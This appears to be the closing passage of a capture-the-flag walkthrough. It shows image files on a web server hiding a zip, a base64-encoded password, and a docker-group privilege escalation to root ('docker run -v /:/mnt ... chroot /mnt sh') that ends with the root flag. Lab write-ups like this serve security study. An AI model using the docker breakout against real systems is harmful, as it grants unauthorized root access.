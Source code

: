 ```
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
</head>
</html>
apaar@ubuntu:/var/www/files$ cd images


and there are two files inside

apaar@ubuntu:/var/www/files/images$ ls -lah
total 2.1M
drwxr-xr-x 2 root root 4.0K Oct  3 06:30 .
drwxr-xr-x 3 root root 4.0K Oct  3 04:40 ..
-rw-r--r-- 1 root root 2.0M Oct  3 04:03 002d7e638fb463fb7a266f5ffc7ac47d.gif
-rw-r--r-- 1 root root  68K Oct  3 04:24 hacker-with-laptop_23-2147985341.jpg
apaar@ubuntu:/var/www/files/images$ 

# One of images has a zip file inside

IWQwbnRLbjB3bVlwQHNzdzByZA==

!d0ntKn0wmYp@ssw0rd
anurodh


# anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

with docker it is possible to escalat to root

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# We are root

root@3ce9e19f5bf1:/# cd /root
root@3ce9e19f5bf1:~# ls -lah
total 68K
drwx------  6 root root 4.0K Oct  4 14:13 .
drwxr-xr-x 24 root root 4.0K Oct  3 03:33 ..
-rw-------  1 root root    0 Oct  4 14:14 .bash_history
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwx------  2 root root 4.0K Oct  3 06:40 .cache
drwx------  3 root root 4.0K Oct  3 05:37 .gnupg
-rw-------  1 root root  370 Oct  4 07:36 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  12K Oct  4 07:44 .proof.txt.swp
drwx------  2 root root 4.0K Oct  3 03:40 .ssh
drwxr-xr-x  2 root root 4.0K Oct  3 04:07 .vim
-rw-------  1 root root  12K Oct  4 14:13 .viminfo
-rw-r--r--  1 root root  166 Oct  3 03:55 .wget-hsts
-rw-r--r--  1 root root 1.4K Oct  4 07:42 proof.txt
root@3ce9e19f5bf1:~# cat proof.txt


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}


Congratulations! You have successfully completed the challenge.


```